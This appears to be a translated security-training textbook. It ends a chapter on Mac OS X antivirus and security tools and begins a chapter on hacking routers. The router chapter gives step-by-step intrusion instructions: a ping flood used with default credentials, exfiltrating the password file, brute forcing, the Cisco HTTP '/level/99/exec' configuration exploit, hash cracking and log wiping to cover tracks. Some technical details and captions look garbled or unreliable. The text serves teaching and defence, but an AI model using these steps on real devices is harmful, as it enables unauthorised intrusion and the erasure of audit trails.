针对 Microsoft Word 文件的宏病毒使用诸如 `AutoOpen`、`AutoClose`、`AutoExec` 和 `AutoExit` 等命令。这些命令在处理文件时发生事件时执行。当文件被打开和执行时，它们会传播。宏病毒在打开文件时复制到活动模板（通常是“Normal”模板）。如果模板未打开，该文件会将自己复制到后台打开的模板中。宏病毒可能在系统中造成严重破坏，破坏文件，更改文件类型和部分菜单项，或者使得模板无法编辑。然后，病毒复制到从受损模板打开或保存的新文件中。宏病毒破坏或删除文件，甚至隐藏某些应用程序。通过删除活动模板（在大多数情况下是默认“Normal”模板）和受损文件，可以移除此类病毒。

## Mac OS X 中的防病毒应用

### VirusBarrier

`VirusBarrier`（图 2-2）是一种非侵入式防病毒软件程序，通过不断检查它读取和写入的所有文件，保护 Mac 免受包括宏病毒和针对操作系统病毒在内的所有类型病毒的侵害。它还巡逻以检测可能表明病毒正在作用于应用程序或其他文件的可疑活动。它可以修复或隔离受感染的文件，并显示警报。`VirusBarrier` 可以按需或在正常操作期间在后台扫描。它有一个选项，可以跳过自上次扫描以来未更改的文件。

`VirusBarrier` 的一些其他功能包括以下方面：
- 启发式和行为分析
- 指定的“信任区域”，在此区域内可禁用对选定文件或文件夹的后台扫描
- 改进日志记录以更好地分析扫描
- 扫描可安排多个时间点
- 当卷被挂载或病毒定义更新时，扫描可自动启动
- 用于远程扫描的命令行控制
- 可通过归档类型激活归档扫描
- 扫描文件中的 Windows 病毒（可禁用）
- 阻止病毒执行
- 接收和发送邮件时扫描电子邮件
- 由 Intego 病毒监控中心进行文件分析
- 用于快速扫描的上下文菜单
- 完整日志可以保存和导出
- 用于程序和更新状态的 Intego 小部件
- 用于更快扫描的 Turbo Mode 技术
- 警报选择（语音、对话框或电子邮件）
- 从 Dock 进行文件分析

### McAfee VirusScan for Mac

`McAfee VirusScan for Mac`（图 2-3）防范所有类型的病毒和恶意代码，包括可能影响 OS X 的新兴和未知威胁及新兴恶意软件。`VirusScan for Mac` 保护系统免受病毒、蠕虫、木马和其他可能感染系统的恶意代码的侵害。`VirusScan for Mac` 提供对多个文件、目录或卷（包括网络计算机上的卷）的策略执行。在 McAfee 产品中，按需扫描和后台扫描都是可选项。`VirusScan` 可以扫描压缩文件，并使用高级启发式和通用检测，保护系统免受新病毒和其他威胁的侵害。

### Sophos Endpoint Security and Control

`Endpoint Security and Control` 通过自动电子邮件警报警告网络中的爆发风险。它是一个防病毒、反间谍软件和客户机防火墙。Sophos 可以保护 Windows、Mac 和 Linux 机器，并为台式机、笔记本电脑、文件服务器和移动设备提供跨平台的安全性和控制。它保护系统免受病毒、间谍软件和广告软件的侵害，并控制 VoIP、IM、P2P 和游戏。当新计算机加入网络时，安全策略会自动执行。这消除了未受保护的计算机破坏安全策略的风险。`Endpoint Security and Control` 包含独特的 Behavioral Genotype 保护功能，防范新的、不可预见的病毒、蠕虫和其他威胁。



**图 2-2** 此屏幕显示 ViruBarrier 服务器管理员选项。



**图 2-3** 此屏幕显示 DropScan 的扫描和清理选项。

### Norton Internet Security

`Norton Internet Security`（图 2-4）提供防病毒保护、互联网蠕虫保护、个人防火墙、隐私保护和 parental 控制。它自动检测并移除来自互联网下载和电子邮件附件中的病毒、木马和蠕虫。NIS 的一些其他功能包括以下方面：
- 个人防火墙允许用户控制所有传入和传出互联网流量。
- 隐私控制防止信息在未获用户许可的情况下被发送。
- 自动阻止黑客和身份窃贼。
- 父母控制阻止用户不希望其孩子访问的网站。
- 通过删除不需要的 cookie 和缓存文件来保护隐私并节省磁盘空间。

## Mac OS X 安全工具

### MacScan

`MacScan` 使用高级检测方法隔离和卸载可能危害安全的程序。黑客使用的远程管理程序允许远程访问计算机。这些程序通常未被检测到，因为防病毒软件通常不保护免受间谍软件侵害。使用远程访问，黑客可以使用击键记录器监控用户活动、操纵文件或锁定合法用户。`MacScan` 可以黑名单跟踪 cookie 以阻止这些黑客，并通知用户任何可能正在活动的间谍软件应用程序。`MacScan` 定期更新间谍软件定义，以保护系统免受最新间谍软件的侵害。它还审计和保护系统免受可能无意中遗留或安装的远程管理程序的侵害。图 2-5 显示了 `MacScan` 应用程序屏幕。

### ClamXav

`ClamXav` 是一款用于 Mac OS X 的病毒检查器。`ClamXav` 基于免费的 `ClamAV` 开源命令行防病毒引擎构建。该软件具有在计算机上移动文件的能力；因此，完整的安全……

在运行 `ClamXav` 之前，会先对任何重要数据执行备份。`ClamXav` 运行于 PPC Mac 的 10.3 和 10.4 版本，以及 Intel Mac 的 10.4 版本。它通过 Apple 安装的 `ClamAV` 引擎在 OS X Server 上运行。其他功能包括将结果记录到文件中、将受感染文件移入隔离区，以及监控文件夹内容变化。图 2-6 展示了 `ClamXav` 检测到的蠕虫。





## IPNetSentryX


## IPNetSentryX

IPNetSentryX（图 2-7）是一种高级防火墙入侵检测器，包含带宽分配、带宽统计、以太网网桥、AirPort 配置以及详细日志记录。它与 Apple 在 OS X 中自带的防火墙兼容，并且可以解决用户可能遇到的网络问题。IPNetSentryX 在保护系统时，不会为特定应用程序在防火墙中打洞。IPNetSentryX 监控可疑行为，一旦触发，它会调用一个过滤器，将潜在入侵者从用户的 Macintosh 上屏蔽。



**图 2-7 IPNetSentryX 可以 Ping 一个 AirPort IP 以识别其是否完全正常运行。如果连接被破坏，IPNetSentryX 可以通知管理员。**

IPNetSentryX 具有以下附加功能：

- UNIX `ipfw` 经常由多个具有冲突模型的程序配置。IPNetSentryX 不使用也不依赖 `ipfw`，从而为 Internet 共享或其他 UNIX 软件保留了空间。IPNetSentryX 的可疑活动触发模型不太可能干扰合法的网络安全使用（如游戏、会议或流媒体）。
- 不干扰正常的网络操作或软件。
- 分层过滤规则易于理解、高效，并提供对网络流量的控制。
- 支持数据内容过滤以阻止 Internet 蠕虫。
- 忽略混杂模式的 TCP 重置。
- 屏幕更新显示正在生效的防火墙规则。
- 包含用于识别疑似入侵者来源的工具。
- 灵活的网络事件监控和电子邮件通知。

## FileGuard

FileGuard 允许通过文件特权和特定的登录时段让多个用户拥有受限访问权限。这赋予了管理员在特定时间将用户锁定在特定文件之外的能力。

FileGuard 还创建提供敏感文件保护的虚拟保险箱。每个保险箱可以有自己的密码。用户可以设定保险箱的大小，或者创建随着文件添加而自动增加容量的保险箱。其他用户即使没有 FileGuard 软件，只要拥有密码，也可以访问这些保险箱中的文件。

除了创建可用于任何机密文件的保险箱外，FileGuard 还创建专门保护电子邮件和即时消息记录的特殊保险箱。FileGuard 将所有电子邮件或即时消息程序的文件复制到保险箱中。当打开保险箱时，它会启动一个受保护的程序，从保险箱中读写。

FileGuard 的另一个实用功能是它可以“粉碎”文档。图 2-8 和 2-9 展示了 FileGuard 的截图。

这些保险箱的特性包括：

- 行业标准加密
- 随着文件添加，保险箱容量增加
- 压缩保险箱以节省空间
- 在笔记本电脑丢失或被盗时保护其中的敏感文件
- 保护便携式介质上的文件，如 iPod 或 USB 闪存盘
- 保险箱图标指示其状态（打开或关闭）





## 对策

以下是保护 Mac OS X 免受黑客攻击的一些对策：

- 关闭文件共享和访客文件共享访问。
- 关闭个人网页共享和程序链接。
- 检查第三方应用程序和系统扩展的配置及状态，这些可能提供额外的可网络访问服务。
- 安装一款充当个人防火墙的商业防病毒应用，并随时更新到最新版本。
- 使用 Apple 或第三方工具加密并设置密码保护存储文档的卷。
- 执行定期备份。
- 轮换至少三个完整的备份卷，并至少将一个存储在场外。

### 章节总结

- Mac OS X 是一个强大的开发平台。
- Apple Mac OS X 在处理特别构造的 URL 时存在的漏洞可能允许攻击者执行任意代码。
- Apple Mac OS X CoreText 包含一个未初始化指针漏洞，可能允许远程未认证攻击者在易受影响的系统上执行任意代码。
- Apple 的 ImageIO 框架包含一个整数溢出漏洞，可能允许攻击者在易受影响的系统上执行代码。
- Apple Mac OS X DirectoryService 中的漏洞可能允许非特权用户更改根密码。
- Apple Safari 网页浏览器包含一个漏洞，可能允许攻击者执行任意代码。
- Mac OS X 内核中的漏洞可能允许已认证的攻击者造成拒绝服务。
- OS X/Leap-A 是一种针对 Mac OS X 平台的即时消息蠕虫。
- 基于 Java 的 Inqtana.A 蠕虫通过蓝牙传播，并影响 MAC OS X 10.4 系统。
- McAfee VirusScan for Mac 可防范所有类型的病毒和恶意代码，包括针对 OS X 的新型和未知威胁。
- IPNetSentryX 是一种高级防火墙入侵检测器，包含带宽分配、带宽统计、以太网网桥、AirPort 配置以及详细日志记录。
- FileGuard 创建虚拟保险箱，为用户的所有敏感文件提供不可破解的保护。

## 复习题

1. 描述 Mac OS X 中构造的 URL 漏洞。
2. Mac OS X 中的 ImageIO 整数溢出漏洞是什么？
3. 解释 DirectoryService 漏洞及其临时解决方案。
4. 恶意安装程序包是如何破解 Mac OS X 的？请描述其流程。
5. 描述一种可能影响 Mac OS X 的蠕虫。
6. 宏病毒有什么隐蔽之处？
7. 端点安全与控制的特性有哪些？
8. 描述 Mac OS X 的两种防病毒解决方案。何时使用每一种？
9. 为什么防范间谍软件如此重要？
10. 什么是 ClamXav？

## 动手项目


1. 执行以下步骤：
   - 导航至学生资源中心的第 2 章。
   - 打开 `Securing Mac OS X.pdf` 并阅读内容。
   - 阅读“安全加固准则”主题。
   - 在同一 PDF 文件中，阅读“数据加密”主题。

2. 执行以下步骤：
   - 导航至学生资源中心的第 2 章。
   - 打开 `Security in Mac OS X.pdf` 并阅读内容。
   - 阅读“安全默认设置”主题。
   - 在同一 PDF 文件中，阅读“现代安全架构”主题。
   - 接下来，阅读“强身份验证”主题。

3. 执行以下步骤：
   - 导航至学生资源中心的第 2 章。
   - 打开 `Mac OS X 10.4 Security Checklist.pdf` 并阅读内容。
   - 阅读“OS X 安全架构”主题。
   - 在同一 PDF 文件中，阅读“用户账户安全”主题。
   - 接下来，阅读“安全系统偏好设置”主题。

4. 执行以下步骤：
   - 导航至学生资源中心的第 2 章。
   - 打开 `Mac OS X Hacking Poses Wide Risk to Windows.pdf` 并阅读内容。
   - 阅读“Mac OS X 黑客攻击对 Windows 构成广泛风险”主题。

*此页故意留空*

# 第 3 章

攻击路由器、电缆调制解调器和防火墙

### 学习目标

完成本章后，你应该能够：

- 识别路由器
- 分析路由器配置
- 利用 Cisco IOS 中的漏洞
- 识别漏洞
- 攻击路由器
- 讨论各种类型的路由器攻击
- 理解电缆调制解调器黑客攻击
- 绕过防火墙
- 暴力破解服务
- 评估各种渗透测试工具

### 关键术语

- **暴力破解攻击** 一种密码破解攻击，尝试所有可能的字母和数字组合，直到找到匹配项
- **电缆调制解调器** 一种允许用户将 PC 连接到本地有线电视线路以访问 Internet 的设备
- **数据包“误处理”攻击** 一种导致路由器错误处理或误处理数据包的攻击
- **路由器** 一种将数据包转发到其目的地的设备或程序
- **路由表投毒** 对路由表的未经授权的修改

## 路由器、电缆调制解调器和防火墙入侵简介

计算机网络设备在计算机网络中将数据从一台计算机传输到另一台计算机。这些设备连接计算机和局域网，正因为如此，它们特别容易受到黑客攻击。本章讨论了以下三种网络设备：

- **路由器**：**路由器**是一种将数据包转发至其目的地的设备或程序。路由器可用于允许多台桌面电脑共用一台服务器，或在家庭中促进无线互联网接入。路由器维护一个可用的转发路由表，以确定特定数据包在互联网上的最佳路由。路由器是数据包传输过程中的关键节点。如果被攻击者访问，路由器将成为使用它们网络的重大安全漏洞。
- **电缆调制解调器**：调制解调器（**M**odulator and **D**E**M**odulator，即调制器与解调器）是一种接收数字信号并将其转换为模拟信号，或者进行反向转换的设备。来自计算机的信号是数字形式的，而从网络接收到的信号是模拟形式的。这种转换是由调制解调器完成的。在发送数据之前，对数据进行调制；在接收数据之后，进行解调。**电缆调制解调器**是一种帮助用户通过有线电视线路连接到计算机系统以访问互联网的设备。电缆调制解调器的主要组件包括以下内容：
  - 微处理器
  - 解调器/调制器


- 用于精细调谐的调谐器
- 媒体访问控制（MAC）设备
- `防火墙`：防火墙是一组相关的程序，通常位于网络网关服务器上，用于保护私有网络资源免受其他网络用户的侵害。防火墙可以设置在一台安全、可靠且可信赖的机器上，该机器放置在私有网络和公共网络之间。它被配置为一组规则以追踪网络流量。防火墙负责允许或阻止流量。防火墙也可以放置在组织内部，以保护组织的特定部门。

这些设备中的每一个在某些方面都存在漏洞。这些漏洞是确定企业和家庭安全策略的重要因素。

## 路由器

### 访问路由器

访问路由器涉及以下五个步骤：
1. 识别路由器。
2. 扫描路由器。
3. 闯入路由器。
4. 破解路由器密码。
5. 分析路由器。这包括以下活动：
   - 检查用户。
   - 分析配置文件。
   - 收集信息。
   - 掩盖踪迹。
   - 监控网络流量。

### 识别路由器

路由器可以配置为看起来像网络上的任何系统。它们可以运行 Web 服务器或 SSH 守护进程，甚至看起来像是运行着多个 X 服务器。思科（Cisco）路由器是最常用的路由器。每个互联网服务提供商（ISP）都会通过至少一台思科路由器进行路由。寻找思科路由器最简单的方法是从命令 shell 中运行 `Traceroute`（在命令提示符下输入 `traceroute` 以及任何一台计算机的 IP 地址）。

此过程将揭示源计算机和目标计算机之间的每一个节点。其中一台系统的名称中很可能包含 `Cisco` 一词。一旦找到这样一台设备，攻击者就可以复制其 IP 地址。

### 扫描路由器

然后可以 `ping` 已发现的思科路由器，以查看其防火墙是否已配置。如果 `ping` 得到返回，则路由器可能未被封锁。另一种访问方法是尝试打开思科路由器的一些端口。这可以通过使用 `telnet` 并在端口 `23` 上打开到路由器的连接来实现。如果它要求输入密码，但不要求用户名，那么就没有防火墙。如果它同时也要求用户名，那么很可能已经启用了防火墙。

`Nmap` 端口扫描器是用于识别路由器的常用工具。图 3-1 展示了对典型思科路由器进行端口扫描的结果。

用户可以使用标准的 `telnet` 客户端连接到相应的端口。图 3-2 显示了一台基本的思科路由器。

### 闯入路由器

攻击者可以通过代理服务器连接到路由器的 `telnet` 端口 `23`，并输入一个巨大的密码字符串。当面对异常巨大的字符串时，思科系统会重启并冻结几分钟；这段时间可用于访问路由器。

另一种方法涉及以下步骤：
1. 打开命令 shell 并输入 `ping -l 56550 cisco.router.ip -t`。
2. 当路由器冻结时，从其他某个代理打开到它的另一个连接。
3. 在密码提示符处输入 `admin`。这是路由器处于默认状态时的默认密码。
4. 设置 Hyper Terminal 以等待来自思科路由器的呼叫。会出现类似“htl-text1:”的提示；输入 `?` 将提供命令列表。
5. 登录。
6. 使用 `transfer` 命令将密码文件从 `admin` 传输到攻击者 IP 地址的端口 `23`。
7. 接受路由器发送的文件，将其保存到磁盘，然后注销。

获取密码文件后，尝试破解该密码。





### 破解路由器密码

`暴力破解攻击`通过尝试字母和数字的所有可能组合，直到找到匹配项来破解密码。这些攻击是使用诸如 `Brutus` 或 `Hydra` 等程序进行的。路由器的登录服务可以受到暴力破解攻击，从而揭示密码和用户名。

攻击者首先尝试识别路由器是否有任何认证技术，例如 `TACACS` 或 `RADIUS`。如果使用这些技术，攻击者在一定次数的登录尝试后可能被锁定，这使得暴力破解攻击变得困难。可以使用标准的 `telnet` 客户端将路由器连接到网络中的另一个系统，以检查是否对该系统赋予了认证权限。

如果客户端建立了连接，且正在使用的设备提示输入用户名，则说该设备安装了一些额外的认证机制。随着 `TACACS` 的实现，攻击者必须同时猜测用户名和密码，而不仅仅是猜测密码。如果没有使用额外的认证机制来保护路由器，则可以使用为此目的设计的程序对密码进行暴力破解。

### 分析路由器

`检查用户` 在访问路由器后，攻击者可以检查当前登录的用户，以确切了解攻击者正在接管的是哪种类型的设备（图 3-3）。在 `IOS` 路由器上，`who` 命令也提供相同的输出。

在 `CatOS` 交换机上，管理登录处于活动状态。在发现其他用户后，攻击者将分析输出，以检查管理员是合法的还是黑客（图 3-4）。如果攻击者怀疑有另一个黑客存在，通常会断开连接。

所有用户都将看到“connection closed by foreign host”（连接被外国主机关闭）的消息。



`分析配置文件` 一旦路由器被暴力破解，攻击者可以轻松访问配置文件。路由器配置文件可以揭示重要的网络信息。攻击者可以利用从配置文件获得的信息执行以下操作：
- 寻找新的目标
- 寻找敏感信息
- 通过分析 `ACL` 识别网络
- 学习密码

```
c2600#sh users
      Line       User         Host(s)             Idle         Location
* 66 vty 0             idle               00:00:00 192.168.77.5
 67 vty 1             idle               00:02:20 192.168.77.6
c2600#clear line ?
<0-70>              Line number
async-queue      Clear queued rotary async lines
aux              Auxiliary line
console         Primary terminal line
tty             Terminal controller
vty             Virtual terminal
x/y             Slot/Port for Modems
c2600#clear line vty 1
[confirm]
[OK]
```


可以在图 3-5 中查看一个示例路由器配置。通过执行 `show running-config`、`show startup-config` 或 `show-config` 命令，攻击者可以详细分析存储在 RAM 和非易失性 RAM（NVRAM）中的整个设备配置文件。

`收集信息` 攻击者可以执行命令以获取更多关于设备、网络上的其他设备以及通过其传输的流量的信息。在 `IOS` 路由器上，使用以下命令来查找有关设备的更多信息：
- `show reload`
- `show kron schedule`
- `show ip route`
- `show ip protocols`
- `show ip arp`
- `show clock detail`
- `show interfaces summary`
- `show tcl brief all`
- `show adjacency detail`
- `show ip nat translations verbose`
- `show ip cache flow`
- `show ip cef`
- `show ip cef internal`
- `show snmp`
- `sh ip accounting`
- `show aliases`
- `show auto secure config`
- `show file systems`
- `show proc cpu`

以下是 EXEC 模式的默认别名：
- `h`: help（帮助）
- `lo`: logout（注销）
- `p`: ping（ping）
- `r`: resume（恢复）
- `s`: show（显示）

## 网络配置脚本


```
interface Ethernet1
description Link to DMZ
ip address 172.16.1.1 255.255.255.0
no ip directed-broadcast
no ip route-cache
!
interface Serial0
description link from PSInet
bandwidth 1536
no ip address
no ip directed-broadcast
no fair-queue
!
interface Serial1
no ip address
no ip directed-broadcast
no ip route-cache
shutdown
!
ip default-gateway 10.0.1.1
ip http server
ip classes
!
logging history critical
logging trap warnings
logging 10.0.1.103
access-list 100 permit tcp host 192.168.2.99 host 10.0.1.199 eq telnet
access-list 100 permit tcp host 192.168.2.99 host 10.0.1.199 eq finger
access-list 100 permit ip 0.0.0.0 255.255.255.248 host 10.0.1.199
access-list 100 permit ip host 10.0.1.103 any
access-list 100 deny ip any any
snmp-server community public RO
snmp-server community private RW
snmp-server location XYZ Widgets Inc. Server Room (417)
snmp-server contact Network Admins
snmp-server host 10.0.1.112 hjnlnjo4
banner motd "C
THIS IS A PRIVATE COMPUTER SYSTEM.
This computer system including all related equipment, network devices
(specifically including Internet access), are provided only for
authorized use. All computer systems may be monitored for all lawful
purposes, including to ensure that their use is authorized, for
management of the system, to facilitate protection against unauthorized
access, and to verify security procedures, survivability and
operational security. Monitoring includes active attacks by authorized
personnel and their entities to test or verify the security of the
system. During monitoring, information may be examined, recorded,
copied and used for authorized purposes. All information including
personal information, placed on or sent over this system may be
monitored. Use of this system, authorized or unauthorized, constitutes
consent to monitoring of this system. Unauthorized use may subject you
to criminal prosecution. Evidence of any such unauthorized use
collected during monitoring may be used for administrative, criminal or
other adverse action. Use of this system constitutes consent to
monitoring for these purposes."
line con 0
password 7 01030717481C091D25
transport input none
line aux 0
line vty 0 4
password 7 095C4F1A0A121880DF
login
!
version 12.0
service timestamps debug uptime
service timestamps log uptime
service password-encryption
!
hostname router2
!
logging buffered errors
enable secret 5 $1$azD5FR$ahJ3JgyYutm9aj/UzMl
!
username sysadmin password 7 0531F35754943001754
ip subnet-zero
no ip routing
!
!
interface Ethernet0
description Internal Corporate Link
ip address 10.0.1.199 255.255.255.0
no ip directed-broadcast
no ip route-cache
```

## 图 3-5 路由器配置文件揭示了重要信息

### 调试命令选项

- `u`: undebug
- `un`: undebug
- `w`: where

### 覆盖痕迹

在确定用户数量并获取其他信息后，攻击者会关闭日志记录功能并清除终端命令历史。在 IOS 路由器上，攻击者可以输入 `clear logging` 和 `clear logging xml`。下一步是进入配置模式并使用 `no logging` 命令关闭所有日志记录。有些攻击者会关闭具有威胁性的特定日志记录形式。在集中式日志记录主机被入侵之前，攻击者无法控制远程 Syslog 服务器。有时，日志记录级别会被更改为最低级别——而不是完全关闭——使用以下命令：

- `logging trap emergencies`
- `logging console emergencies`
- `logging buffered emergencies`
- `logging history emergencies`
- `logging monitor emergencies`

攻击者可以使用 `no service timestamps log date time msec` 关闭日志时间戳。

通过取消配置 `ntp server <server IP>`，攻击者可以关闭网络时间协议（NTP）客户端。然后，攻击者将退出到 EXEC 模式并使用 `clock set <hh:mm:ss>` 设置不正确的时间。最后，使用 `terminal history size 0` 命令关闭终端历史。

## 捕获网络流量

攻击者可以使用为此目的开发的程序来监控和捕获通过被入侵路由器的网络流量。

### 使用 SLChek 监控 SMTP（端口 25）

SLChek 可以在连接到简单的邮件传输协议（SMTP）服务器后定期监控该服务器。可以使用以下命令来监控 SMTP 服务器：

```
SLChek -p 25 -a 10.1.1.1 -r "220"
```

SLChek 尝试开始与地址为 `10.1.1.1` 的服务器建立连接，结果保存在 `SLReport.csv` 文件中。

根据回答，将执行以下三个批处理文件中的一个：

- `CheckOK.cmd`：如果连接成功建立
- `CheckTimeout.cmd`：如果服务器在 2,000 毫秒内未响应
- `CheckMismatch.cmd`：如果服务器以不同的答案字符串响应

### 使用 SLChek 监控 HTTP（端口 80）

SLChek 可以通过超文本传输协议（HTTP）定期请求 URL 来监控 Web 服务器。以下是该命令：

```
SLChek -p 80 -a www.Website.com -u / -r "HTTP/1.1 200 OK"
```

SLChek 尝试建立与服务器 `www.Website.com` 的连接并发出 HTTP GET 请求。结果存储在 `SLReport.csv` 中。根据回复，将执行以下三个批处理文件中的一个：

- `CheckOK.cmd`：如果 GET 请求成功


- `CheckTimeout.cmd`：如果服务器在 2,000 毫秒内未响应
- `CheckMismatch.cmd`：如果服务器以不同的字符串回复

## 漏洞扫描

路由器是任何网络基础设施的骨干。识别路由器配置中的漏洞是保护网络的基本要素。

X-scanner、SAINT、Retina、MBSA 和 Nessus 等漏洞扫描器可以识别已知漏洞。这些扫描器通常使用通用漏洞列表来检查路由器配置。这是处理网络漏洞的良好起点，但用户必须深入调查这些扫描结果，因为它们经常遗漏重要的配置错误。例如，Nessus 有一个包含约 44 个社区字符串的列表，用于暴力破解 SNMP 守护进程，这可能足以捕获使用公共和私有等常见默认社区字符串的情况，但无法考虑到可能正在使用的特定于站点的字符串。



**图 3-6 Cisco 路由器在访问时需要身份验证。**

## HTTP 配置任意管理访问漏洞

一种影响大多数 Cisco 路由器（在条件合适时）的漏洞是 HTTP 配置任意管理访问漏洞。可以通过 HTTP 请求在远程 Cisco 路由器上执行任意命令，如下所示：

```
/level1-<$NUMBER>/exec/show/config/cr
```

在此字符串中，`$NUMBER` 是 16 到 99 之间的整数。

攻击者可以利用此功能削减网络访问权限，甚至将用户锁定在路由器之外。任何 Web 浏览器都可以利用此漏洞。如果攻击者导航到特定路由器——示例中使用 IP 地址 10.0.1.252——图像可能如 图 3-6 所示。

如果攻击者点击取消按钮并在路由器 IP 地址后添加 `/level/99/exec/show/config`，将显示设备的启动配置（图 3-7）。

此漏洞利用会揭示路由器的配置、接口、访问控制列表（ACL）和 SNMP 社区字符串。在示例中，使用维吉尼亚（Vigenere）加密方案对密码进行加密。这种加密方案可以借助 GetPass! 工具轻松破解（图 3-8）。

如果密码以 MD5 哈希形式存储，可以使用如 John the Ripper 和 Cain and Abel 等工具进行字典攻击来破解它。

破解密码后，攻击者可以通过 telnet 登录并获得路由器的完全管理控制权。可以通过完全禁用所有 Web 配置界面来消除此漏洞。

## 路由器攻击

路由器攻击拓扑如 图 3-9 所示。如果被入侵，路由器可以揭示大量敏感信息，并允许访问重要的网络功能。如果访问了路由器，攻击者可以执行以下操作：

- 获取关于网络中所有可能漏洞的知识
- 通过丢弃或错误路由通过路由器的数据包来中断通信
- 完全禁用路由器及其网络
- 破坏网络中的其他路由器，并可能破坏相邻网络
- 监控并记录入站和出站网络流量的日志
- 绕过防火墙和入侵检测系统
- 将任何类型的流量转发到被入侵的网络



**图 3-7** 在某些思科路由器上，无需密码即可访问启动配置。



**图 3-8** GetPass! 可以解密思科密码。



**图 3-9** 针对路由器的攻击可以将请求重定向到伪造的主机。

## 拒绝服务（DoS）攻击

无法获得机器访问权限的攻击者可以通过淹没路由器来使其崩溃，从而实施拒绝服务攻击。这种攻击会耗尽路由器的资源，使其无法被网络流量访问和使用。

